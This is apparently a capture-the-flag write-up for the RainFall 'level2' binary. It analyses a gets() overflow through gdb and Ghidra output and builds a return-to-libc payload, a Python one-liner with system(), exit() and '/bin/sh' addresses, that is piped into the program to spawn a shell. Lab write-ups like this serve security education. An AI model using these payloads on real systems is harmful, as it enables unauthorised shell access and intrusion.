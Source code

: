 ## Basic examination
There is a single executable **level2**. We run it:
~~~bash
./level2
42 let me pass
42 let me pass
~~~
As we can see,it waits for a stdin input and than prints it. Let's examine the function.

## Assembly dump analysis
As usual, we run **gdb** for a assembly dump for main:
~~~assembly
    0x0804853f <+0>:	push   %ebp
   0x08048540 <+1>:	mov    %esp,%ebp
   0x08048542 <+3>:	and    $0xfffffff0,%esp
   0x08048545 <+6>:	call   0x80484d4 <p>  <-- calls function p() and returns 0
   0x0804854a <+11>:	leave
   0x0804854b <+12>:	ret
~~~
As we can see, it just call one function and returns, so the printing must happen in **p()** function. Let's analyze:
~~~assembly
   0x080484d4 <+0>:	push   %ebp
   0x080484d5 <+1>:	mov    %esp,%ebp
   0x080484d7 <+3>:	sub    $0x68,%esp
   0x080484da <+6>:	mov    0x8049860,%eax
   0x080484df <+11>:	mov    %eax,(%esp)
   0x080484e2 <+14>:	call   0x80483b0 <fflush@plt>
   0x080484e7 <+19>:	lea    -0x4c(%ebp),%eax
   0x080484ea <+22>:	mov    %eax,(%esp)
   0x080484ed <+25>:	call   0x80483c0 <gets@plt>    <-- vulnerable gets() again, like in previous level
   0x080484f2 <+30>:	mov    0x4(%ebp),%eax
   0x080484f5 <+33>:	mov    %eax,-0xc(%ebp)
   0x080484f8 <+36>:	mov    -0xc(%ebp),%eax
   0x080484fb <+39>:	and    $0xb0000000,%eax
   0x08048500 <+44>:	cmp    $0xb0000000,%eax
   0x08048505 <+49>:	jne    0x8048527 <p+83>
   0x08048507 <+51>:	mov    $0x8048620,%eax
   0x0804850c <+56>:	mov    -0xc(%ebp),%edx
   0x0804850f <+59>:	mov    %edx,0x4(%esp)
   0x08048513 <+63>:	mov    %eax,(%esp)
   0x08048516 <+66>:	call   0x80483a0 <printf@plt>
   0x0804851b <+71>:	movl   $0x1,(%esp)
   0x08048522 <+78>:	call   0x80483d0 <_exit@plt>
~~~
We can see there is a buffer overflow vulnerable function **gets()** again, but this time there is no system call thant will let us further. So we must think about the way how to force the execution of what we need. We can use **Ghidra** that will help us understand a little more about p() function with its decompile abilities.
~~~C
void p(void)
{
  void *unaff_retaddr;   //uninitiated void pointer, from the name we can assume it is for storing return address. 
  char local_50 [76];
  
  fflush(stdout);
  gets(local_50);
  if (((uint)unaff_retaddr & 0xb0000000) == 0xb0000000) {             //casted as unsigned int (4 bytes), comparing the return address with bitwise AND with 0xb0000000
    printf("(%p)\n",unaff_retaddr);                                   //if true, prints it and exits with 1.
                    /* WARNING: Subroutine does not return */
    _exit(1);
  }
  puts(local_50);
  strdup(local_50);
  return;
}
~~~
We can already see that the program is **allocating 80 bytes, 76 for the string and 4 bytes for uint variable (4 bytes on 32 bit systems)**. From what we already know about **stack frame** for program execution, this will be our potential offset for force execution of what we might need on the place of the return memory address. **BUT!** this code is little wittier, as the return address comparation here is effectivelly blocking the classical buffer overflow. Why? Read the stuff [HERE](https://unix.stackexchange.com/questions/509607/how-a-64-bit-process-virtual-address-space-is-divided-in-linux). As we can see, 0xbf****** address ranges are historically associated with user memory on 32 bit x86 systems - the stack, in other words. So, the code above is blocking the execution of the return memory addresses located on the stack, exiting the flow when it finds such. Fortunatelly, there is also a **heap**...

## Return to libc
We will use the [**return to libc**](https://en.wikipedia.org/wiki/Return-to-libc_attack) type of attack that is not utiliying the stack but rather works with stuff already in process memory. We construct the attack using this flow
~~~
overflow on offset -> p() return address -> mem address of system() -> exit() -> mem address of "/bin/sh"
~~~
**exit()** is called in the payload to ensure the proper flow of the program - if we don't control this, program might cras or behaves unexpectally. By calling exit function, we gracefully end it so our call to the **system("/bin/sh") runs smoothly. No, in the payload, the exist is placed before the "/bin/sh". That does not mean it will be called before it. The way the stack frame is constructed, **system("/bin/sh") is called first and then the **exit()**.

Return address of **p()** is **0x0804853e**.
Using gdb's brakepoint, we will find the rest of what we need:
~~~bash
(gdb) b p
Breakpoint 1 at 0x80484da
(gdb) r
Starting program: /home/user/level2/level2 

Breakpoint 1, 0x080484da in p ()
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
(gdb) find 0xb7e6b060, +9999999, "/bin/sh"
0xb7f8cc58
~~~
Now we use this to construct the attack:
~~~bash
level2@RainFall:~$  python -c 'print "F" * 80 + "\x08\x04\x85\x3e"[::-1] + "\xb7\xe6\xb0\x60"[::-1] + "\xb7\xe5\xeb\xe0"[::-1] + "\xb7\xf8\xcc\x58"[::-1]' > /tmp/flag2
level2@RainFall:~$ cat /tmp/flag2 - | ./level2
~~~


